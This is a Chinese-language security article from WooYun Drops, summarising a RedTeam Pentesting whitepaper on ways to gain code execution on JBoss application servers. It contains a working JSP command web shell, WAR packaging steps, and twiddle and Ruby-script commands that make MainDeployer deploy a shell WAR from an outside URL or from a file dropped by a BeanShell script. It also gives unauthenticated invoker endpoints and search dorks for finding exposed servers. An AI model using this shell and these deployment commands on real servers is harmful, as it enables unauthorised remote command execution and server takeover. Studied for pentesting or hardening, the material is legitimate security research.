








# JBoss 安全问题总结

2013/07/23 19:28 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 简介

* * *

JBoss 应用服务器（JBoss AS）是一个被广泛使用的开源 Java 应用服务器。

它是 JBoss 企业中间件（JEMS）的一部分，并且经常在大型企业中使用。

因为这个软件是高度模块化和松耦合的，导致了它很很复杂，同时也使它易成为攻击者的目标。

本文从攻击者的角度来看，指出 JBoss 应用服务器存在的潜在风险，并结合例子如何实现如何在 JBoss 应用服务器上执行任意代码。

### 0x01 JBoss 概述

JBoss 应用服务器基于 Java 企业版 1.4，并可以在应用在非常多操作系统中，包括 Linux，FreeBSD 和 Windows 中，只要操作系统中安装了 Java 虚拟机。



JBoss 应用服务架构

#### Java 管理扩展（JMX）

Java 管理扩展（JMX）是一个监控管理 Java 应用程序的标准化架构，JMX 分为三层：



JMX 架构

设备层（Instrumentation Level）：主要定义了信息模型。在 JMX 中，各种管理对象以管理构件的形式存在，需要管理时，向 MBean 服务器进行注册。该层还定义了通知机制以及一些辅助元数据类。

代理层（Agent Level）：主要定义了各种服务以及通信模型。该层的核心是一个 MBean 服务器，所有的管理构件都需要向它注册，才能被管理。注册在 MBean 服务器上管理构件并不直接和远程应用程序进行通信，它们通过协议适配器和连接器进行通信。而协议适配器和连接器也以管理构件的形式向 MBean 服务器注册才能提供相应的服务。

分布服务层（Distributed Service Level）：主要定义了能对代理层进行操作的管理接口和构件，这样管理者就可以操作代理。然而，当前的 JMX 规范并没有给出这一层的具体规范。

#### JMX Invoker

Invokers 允许客户端应用程序发送任意协议的 JMX 请求到服务端。

这些调用都用过 MBean 服务器发送到响应的 MBean 服务。

传输机制都是透明的，并且可以使用任意的协议如：HTTP,SOAP2 或 JRMP3。

#### Deployer 架构

攻击者对 JBoss 应用服务器中的 Deployers 模块特别感兴趣。

他们被用来部署不同的组成部分。

本文当中重点要将的安装组件：

JAR（Java ARchives）：JAR 文件格式以流行的 ZIP 文件格式为基础。与 ZIP 文件不同的是，JAR 文件不仅用于压缩和发布，而且还用于部署和封装库、组件和插件程序，并可被像编译器和 JVM 这样的工具直接使用。在 JAR 中包含特殊的文件，如 manifests 和部署描述符，用来指示工具如何处理特定的 JAR。

WAR（Web ARchives）：WAR 文件是 JAR 文件包含一个 Web 应用程序的组件，与 Java ServerPages（JSP），Java 类，静态 web 页面等类似。

BSH（BeanSHell scripts）：BeanShell 是 Java 脚本语言，BeanShell 脚本使用 Java 语法，运行在 JRE 上。

最重要的 JBoss 应用服务器 deployer 是 MainDeployer。它是部署组件的主要入口点。

传递给 MainDeployer 的部署组件的路径是一个 URL 形式：

```
org.jboss.deployment.MainDeployer.deploy(String urlspec) 
```

MainDeployer 会下载对象，并决定使用什么样的 SubDeployer 转发。

根据组件的类型，SubDeployer（例如：JarDeployer，SarDeployer 等）接受对象进行安装。

为了方便部署，可以使用 UrlDeploymentScanner，它同样获取一个 URL 作为参数：

```
org.jboss.deployment.scanner.URLDeploymentScanner.addURL(String urlspec) 
```

传入的 URL 会被定期的检查是否有新的安装或更改。

这就是 JBoss 应用服务器如何实现热部署的，有新的或者更改的组件会被自动的部署。

### 0x02 攻击

* * *

#### WAR 文件

最简单的在 JBoss 应用服务器上运行自己的代码是部署一个组件，JBoss 可以通过 HTTP 安装组件。

WAR 文件包需要在 WEB-INF 目录下含一个 web.xml 文件，在实际的应用程序代码目录之外。

这是一个描述文件，描述了在什么 URL 将在之后的应用程序中发现。

WAR 文件可以用 Java 的 SDK jar 命令创建：

```
$ jar cvf redteam.war WEB-INF redteam.jsp 
```

redteam.war 的结构目录：

```
|-- META-INF
|   -- MANIFEST.MF
|-- WEB-INF
|   -- web.xml 
-- redteam.jsp 
```

META-INF/MANIFEST.MF 是用 jar 创建文件时自动创建的，包含 JAR 的信息，例如：应用程序的主入口点（需要调用的类）或者需要什么额外的类。这里生成的文件中没有什么特别的信息，仅包含一些基本信息：

```
Manifest-Version: 1.0 
Created-By: 1.6.0_10 (Sun Microsystems Inc.) 
```

WEB-INF/web.xml 文件必须手动创建，它包含有关 Web 应用程序的信息，例如 JSP 文件，或者更详细的应用描述信息，如果发生错误，使用什么图标显示或者错误页面的名称等

```
<?xml version="1.0" ?>
<web-app 

         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee
             http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
         version="2.4">
    <servlet>
        <servlet-name>RedTeam Shell</servlet-name>
        <jsp-file>/redteam.jsp</jsp-file>
    </servlet>
</web-app> 
```

redteam 的内容：

```
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
  String cmd = request.getParameter("cmd");
  Process p = Runtime.getRuntime().exec(cmd);
  OutputStream os = p.getOutputStream();
  InputStream in = p.getInputStream();
  DataInputStream dis = new DataInputStream(in);
  String disr = dis.readLine();
  while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
} }
%> 
```

HTTP 请求：

```
/redteam.jsp?cmd=ls 
```

将会列出当前目录所有文件，命令执行后的结果会通过如下代码返回来：

```
while ( disr != null ) {
  out.println(disr);
  disr = dis.readLine();
} 
```

#### JMX Console

JMX 控制台允许通过 web 浏览器与 JBoss 应用服务器直接互动的组件。

它可以方便的管理 JBoss 服务器，MBean 的属性与方法可以直接调用，只要参数中没有复杂的参数类型。



JMX 控制台默认界面

这个通常是攻击者第一个目标。

Server- 和 ServerInfo-MBean

##### MBeans 的属性

```
jboss.system:type=Server
jboss.system:type=ServerInfo 
```

展现了 JBoss 应用服务器与主机系统的信息，包含 Java 虚拟机以及操作系统的类型版本信息。



MBean 的属性

JMX 控制台对 MBeans 可读可操作，不仅包含 JBoss 应用服务器本身的信息，同时包含主机信息，这些有助于进一步攻击。

MBean 的 shutdown()方法可以关闭 JBoss 应用服务器，未授权的 JMX 接口可以导致拒绝服务攻击。

##### redteam.war 安装

MainDeployer 的方法属性可以在 JMX 控制台中的 jboss.system 中调用。

deploy()方法可以由一个 URL 中一个参数调用，URL 指向 WAR 文件，需要是服务器能够访问到的地址。

当 invoke 按钮被点击时，JBoss 应用服务器会下载 WAR 文件并安装它，之后，就可以执行 shell 命令了



deploy()方法



JBoss 应用程序执行 ls -l 命令

#### RMI: 远程方法调用

通常 JMX 控制台保护方法是加一个密码保护。

然而这不是访问 JBoss 应用服务器组件的唯一方式，JBoss 应用服务器经常与客户端程序接口相互调用，Java 远程方法调用（RMI）也发挥重要作用。

使用 RMI，本地应用程序可以访问远程对象，并可以调用它们的方法。客户端与服务器之间的通信是透明的。

JNDI(Java Naming and Directory Interface)是一个应用程序设计的 API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似 JDBC 都是构建在抽象层上。

JNDI 可访问的现有的目录及服务有：

DNS、XNam 、Novell 目录服务、LDAP(Lightweight Directory Access Protocol 轻型目录访问协议)、 CORBA 对象服务、文件系统、Windows XP/2000/NT/Me/9x 的注册表、RMI、DSML v1&v2、NIS。

##### 通过 RMI 访问 MBean

RMI 接口默认凯奇在端口 4444 上，JNDI 接口默认开启在 1098 和 1099 上。

与 JBoss 应用服务器 RMI 通信，可以使用专门的 Java 程序。更简单的方式是使用 twiddle，包括 JBoss 应用服务器的安装。

```
$ sh jboss-4.2.3.GA/bin/twiddle.sh -h
A JMX client to ’twiddle’ with a remote JBoss server.
usage: twiddle.sh [options] <command> [command_arguments]
options:
    -h, --help                   Show this help message
        --help-commands          Show a list of commands
    -H=<command>                 Show command specific help
-c=command.properties            Specify the command.properties file to use
-D<name>[=<value>]               Set a system property
--                               Stop procession options
-s, --server=<url>               The JNDI URL of the remote server
-a, --adapter=<name>             The JNDI name of the RMI adapter to user
-u, --user=<name>                Specify the username for authentication
-p, --password=<name>            Specify the password for authentication
-q, --quiet                      Be somewhat more quiet 
```

有了 twiddle，就用可用命令行通过 RMI 调用 JBoss 应用服务器的 MBeans。Windows 下是 twiddle.bat，Linux 下是 twiddle.sh 来启动 twiddle。类似于 JMX 控制台，MBEAN 的属性可读可改，并且可以调用其方法。

显示 MBean 服务器的信息

```
$ ./twiddle.sh -s scribus get jboss.system:type=ServerInfo
ActiveThreadCount=50
AvailableProcessors=1
OSArch=amd64
MaxMemory=518979584
HostAddress=127.0.1.1
JavaVersion=1.6.0_06
OSVersion=2.6.24-19-server
JavaVendor=Sun Microsystems Inc.
TotalMemory=129957888
ActiveThreadGroupCount=7
OSName=Linux
FreeMemory=72958384
HostName=scribus
JavaVMVersion=10.0-b22
JavaVMVendor=Sun Microsystems Inc.
JavaVMName=Java HotSpot(TM) 64-Bit Server VM 
```

##### 安装 redteam.war

根据 twiddle 的帮助利用 deploy()方法安装 war 文件。

```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy http://www.redteam-pentesting.de/redteam.war 
```

通过下面的 URL 访问 shell：

```
http://scribus:8080/redteam/redteam-shell.jsp 
```

#### BSHDeployer

利用 RMI 攻击需要 JBoss 应用服务器能够访问远程 HTTP 服务器。

然而在很多配置中，防火墙不允许 JBoss 服务器对外发出连接请求：



为了能够在 JBoss 服务器上安装 redteam.war，这个文件需要放在本地。

虽然 JBoss 不允许直接直接上传文件，但是有 BeanShellDeployer，我们可以在远程服务器上创建任意文件。

##### BeanShell

BeanShell 是一种运行在 JRE 上的脚本语言，该语言支持常规的 Java 语法。可以很快写完，并且不需要编译。

##### BSHDeployer

JBoss 服务器中 BSHDeployer 可以部署 BeanShell 脚本，它会安装后自动执行。

利用 BSHDeployer 安装的方法是：

```
createScriptDeployment(String bshScript, String scriptName) 
```

##### BeanShell 脚本

可以用下面的 BeanShell 脚本实现把 redteam.war 放到 JBoss 服务器上。

```
import java.io.FileOutputStream;
import sun.misc.BASE64Decoder;
// Base64 encoded redteam.war
String val = "UEsDBBQACA[...]AAAAA";
BASE64Decoder decoder = new BASE64Decoder();
byte[] byteval = decoder.decodeBuffer(val);
FileOutputStream fs = new FileOutputStream("/tmp/redteam.war");
fs.write(byteval);
fs.close(); 
```

变量 val 中是 redteam.war 文件的 base64 编码后的字符串，脚本在 tmp 目录下生成 redteam.war 文件，Windows 中可以填写 C:WINDOWSTEMP。

##### 安装 redteam.war 文件

利用 twiddle，可以使用 DSHDeployer 的 createScriptDeployement()方法：

```
$ ./twiddle.sh -s scribus invoke jboss.deployer:service=BSHDeployer createScriptDeployment "‘cat redteam.bsh‘" redteam.bsh 
```

tedteam.bsh 包含上面的 BeanShell 脚本，调用成功后 JBoss 服务器返回 BeanShell 创建的临时文件地址：

```
file:/tmp/redteam.bsh55918.bsh 
```

当 BeanShell 脚本执行部署后，会创建/tmp/redteam.war 文件，现在就可以通过调用本地文件来部署了：

```
$ ./twiddle.sh -s scribus invoke jboss.system:service=MainDeployer deploy file:/tmp/redteam.war 
```

之后就可以访问 redteam-shell.jsp 来执行命令了。

#### Web Console Invoker

通过 JMX 控制台与 RMI 来控制 JBoss 服务器是最常用的方法。

除了这些还有更隐蔽的接口，其中之一就是 Web 控制台中使用 JMXInvoker。

##### Web 控制台

Web 控制台与 JMX 控制台类似，也可以通过浏览器访问。

Web 控制台的默认界面：



如果 JMX 控制台有密码保护的话，是不可以通过 Web 控制台访问 MBean 的函数的，需要登陆后才能访问。

##### Web 控制台 JMX Invoker

Web 控制台除了可以看到组建的梳妆接口与 JBoss 服务器信息外，还可监视 MBean 属性的实时变化。

访问 URL：

```
http://$hostname/web-console/Invoker 
```

这个 Invoker 其实就是 JMX Invoker，而不局限于 Web 控制台提供的功能。

默认情况下，访问是不受限制的，所以攻击者可以用它来发送任意的 JMX 命令到 JBoss 服务器。

##### 安装 redteam.war

用 Web 控制台的 Invoker 安装 redteam.war 文件。

webconsole_invoker.rb 可以直接调用 Web 控制的 JMX Invoker，使用的 Java 类是：org.jboss.console.remote.Util

Util.class 文件属于 JBoss 服务器的 JAR 文件：console-mgr-classes.jar，它提供的方法：

```
public static Object invoke(
    java.net.URL externalURL,
    RemoteMBeanInvocation mi)
public static Object getAttribute(
    java.net.URL externalURL,
    RemoteMBeanAttributeInvocation mi) 
```

通过 Web 控制台 Invoker 可以读取 MBean 的属性与 invoke 方法。

这个类可以通过 webconsole_invoker.rb 脚本使用，使用方法如下：

```
$ ./webconsole_invoker.rb -h
Usage: ./webconsole_invoker.rb [options] MBean
-u, --url URL  The Invoker URL to use (default:http://localhost:8080/web-console/Invoker)
-a, --get-attr ATTR             Read an attribute of an MBean
-i, --invoke METHOD             invoke an MBean method
-p, --invoke-params PARAMS      MBean method params
-s, --invoke-sigs SIGS          MBean method signature
-t, --test                      Test the script with the ServerInfo MBean
-h, --help                      Show this help

Example usage:
./webconsole_invoker.rb -a OSVersion jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listThreadDump jboss.system:type=ServerInfo
./webconsole_invoker.rb -i listMemoryPools -p true -s boolean jboss.system:type=ServerInfo 
```

通过如下命令利用 BSHDeployer 来安装 redteam.war 文件。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i createScriptDeployment -s "java.lang.String","java.lang.String" -p "`cat redteam.bsh`",redteam.bsh jboss.deployer:service=BSHDeployer 
```

在远程服务器上创建一个本地的 redteam.war 文件，现在第二部就可以利用 MainDeployer 安装/tmp/redteam.war 文件了。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i deploy -s "java.lang.String" -p "file:/tmp/redteam.war" jboss.system:service=MainDeployer 
```

redteam-shell.jsp 又可以访问了。

#### JMXInvokerServlet

之前提到过 JBoss 服务器允许任何协议访问 MBean 服务器，对于 HTTP，JBoss 提供 HttpAdaptor。

默认安装中，HttpAdaptor 是没有启用的，但是 HttpAdaptor 的 JMX Invoker 可以通过 URL 直接访问。

```
http://$hostname/invoker/JMXInvokerServlet 
```

这个接口接受 HTTP POST 请求后，转发到 MBean，因此与 Web 控制台 Invoker 类似，JMXInvokerServlet 也可以发送任意的 JMX 调用到 JBoss 服务器。

##### 创建 MarshalledInvocation 对象

JMXInvokerServlet 的调用与 Web 控制台 Invoker 不兼容，所以不能使用 webconsole_invoker.rb 脚本调用。

MarshalledInvocation 对象通常只在内部 JBoss 服务器上做交流。

httpinvoker.rb 脚本与 webconsole_invoker.rb 脚本类似，但是需要 JBoss 服务器激活 HttpAdaptor

```
$ ./httpinvoker.rb -h
Usage: ./httpinvoker.rb [options] MBean
-j, --jndi URL               The JNDI URL to use (default:http://localhost:8080/invoker/JNDIFactory)
-p, --adaptor URL            The Adaptor URL to use (default:jmx/invoker/HttpAdaptor)
-a, --get-attr ATTR          Read an attribute of an MBean
-i,  --invoke METHOD         invoke an MBe an method          
     --invoke-params PARAMS  MBean method params
-s, --invoke-sigs SIGS       MBean method signature
-t, --test                   Test the script with the ServerInfo MBean
-h, --help                   Show this help 
```

##### 安装 tedteam.war

与 webconsole_invoker.rb 安装类似。

寻找 JBoss 服务器的方法：

```
inurl:"jmx-console/HtmlAdaptor"
intitle:"Welcome to JBoss" 
```

From: [Whitepaper_Whos-the-JBoss-now_RedTeam-Pentesting_EN](http://www.redteam-pentesting.de/publications/2009-11-30-Whitepaper_Whos-the-JBoss-now_RedTeam-Pentesting_EN.pdf)

**Tags:** [JBoss](http://drops.wooyun.org/tag/jboss), [安全](http://drops.wooyun.org/tag/%e5%ae%89%e5%85%a8)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [解密 JBoss 和 Weblogic 数据源连接字符串和控制台密码](http://drops.wooyun.org/tips/349)
*   [Flash 安全的一些总结](http://drops.wooyun.org/tips/153)
*   [终端机的安全性](http://drops.wooyun.org/papers/346)
*   [浅谈大型互联网的安全](http://drops.wooyun.org/tips/139)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)